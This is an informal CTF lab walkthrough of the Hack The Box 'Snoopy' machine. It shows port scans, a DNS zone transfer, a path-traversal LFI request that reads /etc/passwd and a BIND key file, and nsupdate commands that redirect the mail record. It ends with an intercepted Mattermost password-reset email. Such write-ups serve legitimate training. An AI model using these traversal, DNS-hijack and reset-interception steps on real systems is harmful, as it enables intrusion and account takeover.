

sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.150.83 -oG allPorts

https://hyperbeast.es/snoopy-htb/

nmap 10.10.11.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 02:29 EDT
Nmap scan report for 10.10.11.212
Host is up (0.80s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
                                                    
Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

Error: Unable to load the "PHP Email Form" Library!

so php 


```
gobuster dir --url http://snoopy.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

/index.html           (Status: 200) [Size: 23418]
/about.html           (Status: 200) [Size: 16614]
/contact.html         (Status: 200) [Size: 10248]
/download             (Status: 200) [Size: 11363570]
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]
/team.html            (Status: 200) [Size: 11115]

/download             (Status: 200) [Size: 11363570]
Progress: 232 / 441122 (0.05%)[ERROR] 2023/07/14 04:58:09 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]


nmap -p22,53,80 -sCV 10.129.150.83 -oN targeted

We enumerate the DNS by performing a zone transfer to discover possible subdomains.

so DNS enumeration is required

https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/

dig command syntaxt snoopy.htb @<snoopy actual ip>
dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 276 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Fri Jul 14 07:21:55 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)


but when we try t capture the request of downloading the package we find

GGET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

also there is an lfi vulnerability

GET /download?file=....//....//....//....//etc/passwd HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


we know lfi wxists tso the way to get ot the configuration key is by looking into /etc/bind/named.conf

```
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the 
// structure of BIND configuration files in Debian, *BEFORE* you customize 
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

exploit mail dns

 nsupdate                  
> server 10.10.11.212 53
> key hmac-sha256:rndc-key BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
> zone snoopy.htb
> update add mail.snoopy.htb 86400 A 10.10.16.47
> send

starting python smtpd server

python3 -m smtpd -c DebuggingServer -n 10.10.16.47:25

we added mm.snoopy.htb

a matter most page opens


then we go and reset our password

we reset password for at password reset page

sbrown@snoopy.htb

but not able to


nothing came maybe because we did not transfer the zone properly before


```
gobuster dns -d snoopy.htb -w /usr/share/spiderfoot/spiderfoot/dicts/subdomains-10000.txt -r 10.129.188.75 -i
```

we do a dns mitm

```
nsupdate -d -y hmac-sha256:rndc-key:BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
```

```
 nsupdate -d -y hmac-sha256:rndc-key:BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
Creating key...
namefromtext
keycreate
> server snoopy.htb
> update add mail.snoopy.htb 86400 IN A 10.10.16.47
> send
Reply from SOA query:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id:  55636
;; flags: qr aa; QUESTION: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; QUESTION SECTION:
;mail.snoopy.htb.               IN      SOA

;; AUTHORITY SECTION:
snoopy.htb.             0       IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400

;; TSIG PSEUDOSECTION:
rndc-key.               0       ANY     TSIG    hmac-sha256. 1689494396 300 32 xMQx80A0hFyR3vAyp07UHaAKnfD0LcYelwyp9Krg3Wg= 55636 NOERROR 0 

Found zone name: snoopy.htb
The primary is: ns1.snoopy.htb
Sending update to 10.10.11.212#53
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:  51585
;; flags:; ZONE: 1, PREREQ: 0, UPDATE: 1, ADDITIONAL: 1
;; UPDATE SECTION:
mail.snoopy.htb.        86400   IN      A       10.10.16.47

;; TSIG PSEUDOSECTION:
rndc-key.               0       ANY     TSIG    hmac-sha256. 1689494398 300 32 Q5XTiD6yfxsiOodahZo6FZ7OTNHr6lnn69o8P/TIY4s= 51585 NOERROR 0 


Reply from update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:  51585
;; flags: qr; ZONE: 1, PREREQ: 0, UPDATE: 0, ADDITIONAL: 1
;; ZONE SECTION:
;snoopy.htb.                    IN      SOA

;; TSIG PSEUDOSECTION:
rndc-key.               0       ANY     TSIG    hmac-sha256. 1689494397 300 32 MBkbhJTD4YJuXYNzf18Fsj6htQpcNfDfLsQCiud5QEY= 51585 NOERROR 0 

```


python -m smtpd -c DebuggingServer -n 127.0.0.1:25

i realise its a dns man in the middle but unable to do it properly. maybe resetting the machine would help

it worked


```
---------- MESSAGE FOLLOWS ----------
mail options: ['BODY=8BITMIME']
b'MIME-Version: 1.0'
b'Date: Sun, 16 Jul 2023 11:59:50 +0000'
b'To: sbrown@snoopy.htb'
b'Subject: [Mattermost] Reset your password'
b'From: "No-Reply" <no-reply@snoopy.htb>'
b'Content-Transfer-Encoding: 8bit'
b'Auto-Submitted: auto-generated'
b'Precedence: bulk'
b'Reply-To: "No-Reply" <no-reply@snoopy.htb>'
b'Message-ID: <ynqd4jntnfx3b77b-1689508790@mm.snoopy.htb>'
b'Content-Type: multipart/alternative;'
b' boundary=9d98f160c08278bf42a3f4cb7881b2ea59d89de7ea870bb1a0730eb8b2f2'
b'X-Peer: 10.10.11.212'
b''
b'--9d98f160c08278bf42a3f4cb7881b2ea59d89de7ea870bb1a0730eb8b2f2'
b'Content-Transfer-Encoding: quoted-printable'
b'Content-Type: text/plain; charset=UTF-8'
b''
b'Reset Your Password'
b'Click the button below to reset your password. If you didn=E2=80=99t reques='
b't this, you can safely ignore this email.'
b''
b'Reset Password ( http://mm.snoopy.htb/reset_password_complete?token=3Dc74zq='
b'gjwhdse8kkji3uhp7kdtoqwffr5933x6yhrxkknshmec5akoqz9jftwa1wr )'
b''
b'The password reset link expires in 24 hours.'
b''
b'Questions?'
b'Need help or have questions? Email us at support@snoopy.htb ( support@snoop='
b'y.htb )'
b''
b'=C2=A9 2022 Mattermost, Inc. 530 Lytton Avenue, Second floor, Palo Alto, CA='
b', 94301'
b'--9d98f160c08278bf42a3f4cb7881b2ea59d89de7ea870bb1a0730eb8b2f2'
b'Content-Transfer-Encoding: quoted-printable'
b'Content-Type: text/html; charset=UTF-8'
b''
b''
b''
b''
b'<!doctype html>'
b'<html xmlns=3D"http://www.w3.org/1999/xhtml" xmlns:v=3D"urn:schemas-microso='
b'ft-com:vml" xmlns:o=3D"urn:schemas-microsoft-com:office:office">'
b''
b'<head>'
b'  <title>'
b'  </title>'
b' =20'
b'  <meta http-equiv=3D"X-UA-Compatible" content=3D"IE=3Dedge">'
b' =20'
b'  <meta http-equiv=3D"Content-Type" content=3D"text/html; charset=3DUTF-8">'
b'  <meta name=3D"viewport" content=3D"width=3Ddevice-width, initial-scale=3D='
b'1">'
b'  <style type=3D"text/css">'
b'    #outlook a {'
b'      padding: 0;'
b'    }'
b''
b'    body {'
b'      margin: 0;'
b'      padding: 0;'
b'      -webkit-text-size-adjust: 100%;'
b'      -ms-text-size-adjust: 100%;'
b'    }'
b''
b'    table,'
b'    td {'
b'      border-collapse: collapse;'
b'      mso-table-lspace: 0pt;'
b'      mso-table-rspace: 0pt;'
b'    }'
b''
b'    img {'
b'      border: 0;'
b'      height: auto;'
b'      line-height: 100%;'
b'      outline: none;'
b'      text-decoration: none;'
b'      -ms-interpolation-mode: bicubic;'
b'    }'
b''
b'    p {'
b'      display: block;'
b'      margin: 13px 0;'
b'    }'
b'  </style>'
b' =20'
b' =20'
b' =20'
b'  <link href=3D"https://fonts.googleapis.com/css?family=3DOpen+Sans:300,400='
b',500,700" rel=3D"stylesheet" type=3D"text/css">'
b'  <style type=3D"text/css">'
b'    @import url(https://fonts.googleapis.com/css?family=3DOpen+Sans:300,400='
b',500,700);'
b'  </style>'
b' =20'
b'  <style type=3D"text/css">'
b'    @media only screen and (min-width:480px) {'
b'      .mj-column-per-100 {'
b'        width: 100% !important;'
b'        max-width: 100%;'
b'      }'
b'    }'
b'  </style>'
b'  <style media=3D"screen and (min-width:480px)">'
b'    .moz-text-html .mj-column-per-100 {'
b'      width: 100% !important;'
b'      max-width: 100%;'
b'    }'
b'  </style>'
b'  <style type=3D"text/css">'
b'    @media only screen and (max-width:480px) {'
b'      table.mj-full-width-mobile {'
b'        width: 100% !important;'
b'      }'
b''
b'      td.mj-full-width-mobile {'
b'        width: auto !important;'
b'      }'
b'    }'
b'  </style>'
b'  <style type=3D"text/css">'
b'    @import url(https://fonts.googleapis.com/css?family=3DOpen+Sans:300,400='
b',500,600,700);'
b''
b'    .emailBody {'
b'      background-color: #F3F3F3'
b'    }'
b''
b'    .emailBody a {'
b'      text-decoration: none !important;'
b'      color: #1C58D9;'
b'    }'
b''
b'    .title div {'
b'      font-weight: 600 !important;'
b'      font-size: 28px !important;'
b'      line-height: 36px !important;'
b'      letter-spacing: -0.01em !important;'
b'      color: #3F4350 !important;'
b'      font-family: Open Sans, sans-serif !important;'
b'    }'
b''
b'    .subTitle div {'
b'      font-size: 16px !important;'
b'      line-height: 24px !important;'
b'      color: rgba(63, 67, 80, 0.64) !important;'
b'    }'
b''
b'    .subTitle a {'
b'      color: rgb(28, 88, 217) !important;'
b'    }'
b''
b'    .button a {'
b'      background-color: #1C58D9 !important;'
b'      font-weight: 600 !important;'
b'      font-size: 16px !important;'
b'      line-height: 18px !important;'
b'      color: #FFFFFF !important;'
b'      padding: 15px 24px !important;'
b'    }'
b''
b'    .button-cloud a {'
b'      background-color: #1C58D9 !important;'
b'      font-weight: 400 !important;'
b'      font-size: 16px !important;'
b'      line-height: 18px !important;'
b'      color: #FFFFFF !important;'
b'      padding: 15px 24px !important;'
b'    }'
b''
b'    .messageButton a {'
b'      background-color: #FFFFFF !important;'
b'      border: 1px solid #FFFFFF !important;'
b'      box-sizing: border-box !important;'
b'      color: #1C58D9 !important;'
b'      padding: 12px 20px !important;'
b'      font-weight: 600 !important;'
b'      font-size: 14px !important;'
b'      line-height: 14px !important;'
b'    }'
b''
b'    .info div {'
b'      font-size: 14px !important;'
b'      line-height: 20px !important;'
b'      color: #3F4350 !important;'
b'      padding: 40px 0px !important;'
b'    }'
b''
b'    .footerTitle div {'
b'      font-weight: 600 !important;'
b'      font-size: 16px !important;'
b'      line-height: 24px !important;'
b'      color: #3F4350 !important;'
b'      padding: 0px 0px 4px 0px !important;'
b'    }'
b''
b'    .footerInfo div {'
b'      font-size: 14px !important;'
b'      line-height: 20px !important;'
b'      color: #3F4350 !important;'
b'      padding: 0px 48px 0px 48px !important;'
b'    }'
b''
b'    .footerInfo a {'
b'      color: #1C58D9 !important;'
b'    }'
b''
b'    .appDownloadButton a {'
b'      background-color: #FFFFFF !important;'
b'      border: 1px solid #1C58D9 !important;'
b'      box-sizing: border-box !important;'
b'      color: #1C58D9 !important;'
b'      padding: 13px 20px !important;'
b'      font-weight: 600 !important;'
b'      font-size: 14px !important;'
b'      line-height: 14px !important;'
b'    }'
b''
b'    .emailFooter div {'
b'      font-size: 12px !important;'
b'      line-height: 16px !important;'
b'      color: rgba(63, 67, 80, 0.56) !important;'
b'      padding: 8px 24px 8px 24px !important;'
b'    }'
b''
b'    .postCard {'
b'      padding: 0px 24px 40px 24px !important;'
b'    }'
b''
b'    .messageCard {'
b'      background: #FFFFFF !important;'
b'      border: 1px solid rgba(61, 60, 64, 0.08) !important;'
b'      box-sizing: border-box !important;'
b'      box-shadow: 0px 8px 24px rgba(0, 0, 0, 0.12) !important;'
b'      border-radius: 4px !important;'
b'      padding: 32px !important;'
b'    }'
b''
b'    .messageAvatar img {'
b'      width: 32px !important;'
b'      height: 32px !important;'
b'      padding: 0px !important;'
b'      border-radius: 32px !important;'
b'    }'
b''
b'    .messageAvatarCol {'
b'      width: 32px !important;'
b'    }'
b''
b'    .postNameAndTime {'
b'      padding: 0px 0px 4px 0px !important;'
b'      display: flex;'
b'    }'
b''
b'    .senderName {'
b'      font-family: Open Sans, sans-serif;'
b'      text-align: left !important;'
b'      font-weight: 600 !important;'
b'      font-size: 14px !important;'
b'      line-height: 20px !important;'
b'      color: #3F4350 !important;'
b'    }'
b''
b'    .time {'
b'      font-family: Open Sans, sans-serif;'
b'      font-size: 12px;'
b'      line-height: 16px;'
b'      color: rgba(63, 67, 80, 0.56);'
b'      padding: 2px 6px;'
b'      align-items: center;'
b'      float: left;'
b'    }'
b''
b'    .channelBg {'
b'      background: rgba(63, 67, 80, 0.08);'
b'      border-radius: 4px;'
b'      display: flex;'
b'      padding-left: 4px;'
b'    }'
b''
b'    .channelLogo {'
b'      width: 10px;'
b'      height: 10px;'
b'      padding: 5px 4px 5px 6px;'
b'      float: left;'
b'    }'
b''
b'    .channelName {'
b'      font-family: Open Sans, sans-serif;'
b'      font-weight: 600;'
b'      font-size: 10px;'
b'      line-height: 16px;'
b'      letter-spacing: 0.01em;'
b'      text-transform: uppercase;'
b'      color: rgba(63, 67, 80, 0.64);'
b'      padding: 2px 6px 2px 0px;'
b'    }'
b''
b'    .gmChannelCount {'
b'      background-color: rgba(63, 67, 80, 0.2);'
b'      padding: 0 5px;'
b'      border-radius: 2px;'
b'      margin-right: 2px;'
b'    }'
b''
b'    .senderMessage div {'
b'      text-align: left !important;'
b'      font-size: 14px !important;'
b'      line-height: 20px !important;'
b'      color: #3F4350 !important;'
b'      padding: 0px !important;'
b'    }'
b''
b'    .senderInfoCol {'
b'      width: 394px !important;'
b'      padding: 0px 0px 0px 12px !important;'
b'    }'
b''
b'    @media all and (min-width: 541px) {'
b'      .emailBody {'
b'        padding: 32px !important;'
b'      }'
b'    }'
b''
b'    @media all and (max-width: 540px) and (min-width: 401px) {'
b'      .emailBody {'
b'        padding: 16px !important;'
b'      }'
b''
b'      .messageCard {'
b'        padding: 16px !important;'
b'      }'
b''
b'      .senderInfoCol {'
b'        width: 80% !important;'
b'        padding: 0px 0px 0px 12px !important;'
b'      }'
b'    }'
b''
b'    @media all and (max-width: 400px) {'
b'      .emailBody {'
b'        padding: 0px !important;'
b'      }'
b''
b'      .footerInfo div {'
b'        padding: 0px !important;'
b'      }'
b''
b'      .messageCard {'
b'        padding: 16px !important;'
b'      }'
b''
b'      .postCard {'
b'        padding: 0px 0px 40px 0px !important;'
b'      }'
b''
b'      .senderInfoCol {'
b'        width: 80% !important;'
b'        padding: 0px 0px 0px 12px !important;'
b'      }'
b'    }'
b''
b'    @media only screen and (min-width:480px) {'
b'      .mj-column-per-50 {'
b'        width: 100% !important;'
b'        max-width: 100% !important;'
b'      }'
b'    }'
b'  </style>'
b'</head>'
b''
b'<body style=3D"word-spacing:normal;background-color:#FFFFFF;">'
b'  <div class=3D"emailBody" style=3D"background-color: #FFFFFF;">'
b'   =20'
b'    <div style=3D"background:#FFFFFF;background-color:#FFFFFF;margin:0px au='
b'to;border-radius:8px;max-width:600px;">'
b'      <table align=3D"center" border=3D"0" cellpadding=3D"0" cellspacing=3D='
b'"0" role=3D"presentation" style=3D"background:#FFFFFF;background-color:#FFF='
b'FFF;width:100%;border-radius:8px;">'
b'        <tbody>'
b'          <tr>'
b'            <td style=3D"direction:ltr;font-size:0px;padding:24px;text-alig='
b'n:center;">'
b'             =20'
b'              <div style=3D"margin:0px auto;max-width:552px;">'
b'                <table align=3D"center" border=3D"0" cellpadding=3D"0" cell='
b'spacing=3D"0" role=3D"presentation" style=3D"width:100%;">'
b'                  <tbody>'
b'                    <tr>'
b'                      <td style=3D"direction:ltr;font-size:0px;padding:0px ='
b'0px 40px 0px;text-align:center;">'
b'                       =20'
b'                        <div class=3D"mj-column-per-100 mj-outlook-group-fi='
b'x" style=3D"font-size:0px;text-align:left;direction:ltr;display:inline-bloc='
b'k;vertical-align:top;width:100%;">'
b'                          <table border=3D"0" cellpadding=3D"0" cellspacing='
b'=3D"0" role=3D"presentation" style=3D"vertical-align:top;" width=3D"100%">'
b'                            <tbody>'
b'                              <tr>'
b'                                <td align=3D"center" style=3D"font-size:0px='
b';padding:0px;word-break:break-word;">'
b'                                  <table border=3D"0" cellpadding=3D"0" cel='
b'lspacing=3D"0" role=3D"presentation" style=3D"border-collapse:collapse;bord='
b'er-spacing:0px;">'
b'                                    <tbody>'
b'                                      <tr>'
b'                                        <td style=3D"width:132px;">'
b'                                          '
b'                                        </td>'
b'                                      </tr>'
b'                                    </tbody>'
b'                                  </table>'
b'                                </td>'
b'                              </tr>'
b'                            </tbody>'
b'                          </table>'
b'                        </div>'
b'                       =20'
b'                      </td>'
b'                    </tr>'
b'                  </tbody>'
b'                </table>'
b'              </div>'
b'             =20'
b'              <div style=3D"margin:0px auto;max-width:552px;">'
b'                <table align=3D"center" border=3D"0" cellpadding=3D"0" cell='
b'spacing=3D"0" role=3D"presentation" style=3D"width:100%;">'
b'                  <tbody>'
b'                    <tr>'
b'                      <td style=3D"direction:ltr;font-size:0px;padding:0px ='
b'24px 40px 24px;text-align:center;">'
b'                       =20'
b'                        <div class=3D"mj-column-per-100 mj-outlook-group-fi='
b'x" style=3D"font-size:0px;text-align:left;direction:ltr;display:inline-bloc='
b'k;vertical-align:top;width:100%;">'
b'                          <table border=3D"0" cellpadding=3D"0" cellspacing='
b'=3D"0" role=3D"presentation" style=3D"vertical-align:top;" width=3D"100%">'
b'                            <tbody>'
b'                              <tr>'
b'                                <td align=3D"center" class=3D"title" style='
b'=3D"font-size:0px;padding:0px;word-break:break-word;">'
b'                                  <div style=3D"text-align: center; font-we='
b'ight: 600; font-size: 28px; line-height: 36px; letter-spacing: -0.01em; col='
b'or: #3F4350; font-family: Open Sans, sans-serif;">Reset Your Password</div>'
b'                                </td>'
b'                              </tr>'
b'                              <tr>'
b'                                <td align=3D"center" class=3D"subTitle" sty='
b'le=3D"font-size:0px;padding:16px 24px 16px 24px;word-break:break-word;">'
b'                                  <div style=3D"font-family: Open Sans, san='
b's-serif; text-align: center; font-size: 16px; line-height: 24px; color: rgb='
b'a(63, 67, 80, 0.64);">Click the button below to reset your password. If you='
b' didn=E2=80=99t request this, you can safely ignore this email.</div>'
b'                                </td>'
b'                              </tr>'
b'                              <tr>'
b'                                <td align=3D"center" vertical-align=3D"midd='
b'le" class=3D"button" style=3D"font-size:0px;padding:0px;word-break:break-wo='
b'rd;">'
b'                                  <table border=3D"0" cellpadding=3D"0" cel='
b'lspacing=3D"0" role=3D"presentation" style=3D"border-collapse:separate;line='
b'-height:100%;">'
b'                                    <tr>'
b'                                      <td align=3D"center" bgcolor=3D"#FFFF='
b'FF" role=3D"presentation" style=3D"border:none;border-radius:4px;cursor:aut='
b'o;mso-padding-alt:10px 25px;background:#FFFFFF;" valign=3D"middle">'
b'                                        <a href=3D"http://mm.snoopy.htb/res='
b'et_password_complete?token=3Dc74zqgjwhdse8kkji3uhp7kdtoqwffr5933x6yhrxkknsh='
b'mec5akoqz9jftwa1wr" style=3D"display: inline-block; background: #FFFFFF; fo='
b'nt-family: Open Sans, sans-serif; margin: 0; text-transform: none; mso-padd='
b'ing-alt: 0px; border-radius: 4px; text-decoration: none; background-color: ='
b'#1C58D9; font-weight: 600; font-size: 16px; line-height: 18px; color: #FFFF='
b'FF; padding: 15px 24px;" target=3D"_blank">'
b'                                          Reset Password'
b'                                        </a>'
b'                                      </td>'
b'                                    </tr>'
b'                                  </table>'
b'                                </td>'
b'                              </tr>'
b'                            </tbody>'
b'                          </table>'
b'                        </div>'
b'                       =20'
b'                      </td>'
b'                    </tr>'
b'                  </tbody>'
b'                </table>'
b'              </div>'
b'             =20'
b'              <div style=3D"margin:0px auto;max-width:552px;">'
b'                <table align=3D"center" border=3D"0" cellpadding=3D"0" cell='
b'spacing=3D"0" role=3D"presentation" style=3D"width:100%;">'
b'                  <tbody>'
b'                    <tr>'
b'                      <td style=3D"direction:ltr;font-size:0px;padding:0px;='
b'text-align:center;">'
b'                       =20'
b'                        <div class=3D"mj-column-per-100 mj-outlook-group-fi='
b'x" style=3D"font-size:0px;text-align:left;direction:ltr;display:inline-bloc='
b'k;vertical-align:top;width:100%;">'
b'                          <table border=3D"0" cellpadding=3D"0" cellspacing='
b'=3D"0" role=3D"presentation" style=3D"vertical-align:top;" width=3D"100%">'
b'                            <tbody>'
b'                              <tr>'
b'                                <td align=3D"center" style=3D"font-size:0px='
b';padding:0px;word-break:break-word;">'
b'                                  <table border=3D"0" cellpadding=3D"0" cel='
b'lspacing=3D"0" role=3D"presentation" style=3D"border-collapse:collapse;bord='
b'er-spacing:0px;">'
b'                                    <tbody>'
b'                                      <tr>'
b'                                        <td style=3D"width:312px;">'
b'                                          '
b'                                        </td>'
b'                                      </tr>'
b'                                    </tbody>'
b'                                  </table>'
b'                                </td>'
b'                              </tr>'
b'                              <tr>'
b'                                <td align=3D"center" class=3D"info" style='
b'=3D"font-size:0px;padding:0px;word-break:break-word;">'
b'                                  <div style=3D"font-family: Open Sans, san='
b's-serif; text-align: center; font-size: 14px; line-height: 20px; color: #3F='
b'4350; padding: 40px 0px;">The password reset link expires in 24 hours.</div='
b'>'
b'                                </td>'
b'                              </tr>'
b'                            </tbody>'
b'                          </table>'
b'                        </div>'
b'                       =20'
b'                      </td>'
b'                    </tr>'
b'                  </tbody>'
b'                </table>'
b'              </div>'
b'             =20'
b'             =20'
b'             =20'
b'              <div style=3D"margin:0px auto;max-width:552px;">'
b'                <table align=3D"center" border=3D"0" cellpadding=3D"0" cell='
b'spacing=3D"0" role=3D"presentation" style=3D"width:100%;">'
b'                  <tbody>'
b'                    <tr>'
b'                      <td style=3D"direction:ltr;font-size:0px;padding:16px='
b' 0px 40px 0px;text-align:center;">'
b'                       =20'
b'                        <div class=3D"mj-column-per-100 mj-outlook-group-fi='
b'x" style=3D"font-size:0px;text-align:left;direction:ltr;display:inline-bloc='
b'k;vertical-align:top;width:100%;">'
b'                          <table border=3D"0" cellpadding=3D"0" cellspacing='
b'=3D"0" role=3D"presentation" style=3D"vertical-align:top;" width=3D"100%">'
b'                            <tbody>'
b'                              <tr>'
b'                                <td align=3D"center" class=3D"footerTitle" ='
b'style=3D"font-size:0px;padding:0px;word-break:break-word;">'
b'                                  <div style=3D"font-family: Open Sans, san='
b's-serif; text-align: center; font-weight: 600; font-size: 16px; line-height='
b': 24px; color: #3F4350; padding: 0px 0px 4px 0px;">Questions?</div>'
b'                                </td>'
b'                              </tr>'
b'                              <tr>'
b'                                <td align=3D"center" class=3D"footerInfo" s='
b'tyle=3D"font-size:0px;padding:0px;word-break:break-word;">'
b'                                  <div style=3D"font-family: Open Sans, san='
b's-serif; text-align: center; font-size: 14px; line-height: 20px; color: #3F='
b'4350; padding: 0px 48px 0px 48px;">Need help or have questions? Email us at='
b'=20'
b'                                    <a href=3D"mailto:support@snoopy.htb" s='
b'tyle=3D"text-decoration: none; color: #1C58D9;">'
b'                                      support@snoopy.htb</a>'
b'                                  </div>'
b'                                </td>'
b'                              </tr>'
b'                            </tbody>'
b'                          </table>'
b'                        </div>'
b'                       =20'
b'                      </td>'
b'                    </tr>'
b'                  </tbody>'
b'                </table>'
b'              </div>'
b'             =20'
b'             =20'
b'             =20'
b'              <div style=3D"margin:0px auto;max-width:552px;">'
b'                <table align=3D"center" border=3D"0" cellpadding=3D"0" cell='
b'spacing=3D"0" role=3D"presentation" style=3D"width:100%;">'
b'                  <tbody>'
b'                    <tr>'
b'                      <td style=3D"direction:ltr;font-size:0px;padding:0px;='
b'text-align:center;">'
b'                       =20'
b'                        <div class=3D"mj-column-per-100 mj-outlook-group-fi='
b'x" style=3D"font-size:0px;text-align:left;direction:ltr;display:inline-bloc='
b'k;vertical-align:top;width:100%;">'
b'                          <table border=3D"0" cellpadding=3D"0" cellspacing='
b'=3D"0" role=3D"presentation" style=3D"vertical-align:top;" width=3D"100%">'
b'                            <tbody>'
b'                              <tr>'
b'                                <td align=3D"center" class=3D"emailFooter" ='
b'style=3D"font-size:0px;padding:0px;word-break:break-word;">'
b'                                  <div style=3D"font-family: Open Sans, san='
b's-serif; text-align: center; font-size: 12px; line-height: 16px; color: rgb='
b'a(63, 67, 80, 0.56); padding: 8px 24px 8px 24px;">'
b'                                    =C2=A9 2022 Mattermost, Inc. 530 Lytton='
b' Avenue, Second floor, Palo Alto, CA, 94301'
b'                                  </div>'
b'                                </td>'
b'                              </tr>'
b'                            </tbody>'
b'                          </table>'
b'                        </div>'
b'                       =20'
b'                      </td>'
b'                    </tr>'
b'                  </tbody>'
b'                </table>'
b'              </div>'
b'             =20'
b'            </td>'
b'          </tr>'
b'        </tbody>'
b'      </table>'
b'    </div>'
b'   =20'
b'  </div>'
b'</body>'
b''
b'</html>'
b''
b''
b'--9d98f160c08278bf42a3f4cb7881b2ea59d89de7ea870bb1a0730eb8b2f2--'
------------ END MESSAGE ------------

reset password link:

http://mm.snoopy.htb/reset_password_complete?token=c74zq
gjwhdse8kkji3uhp7kdtoqwffr5933x6yhrxkknshmec5akoqz9jftwa1wr 
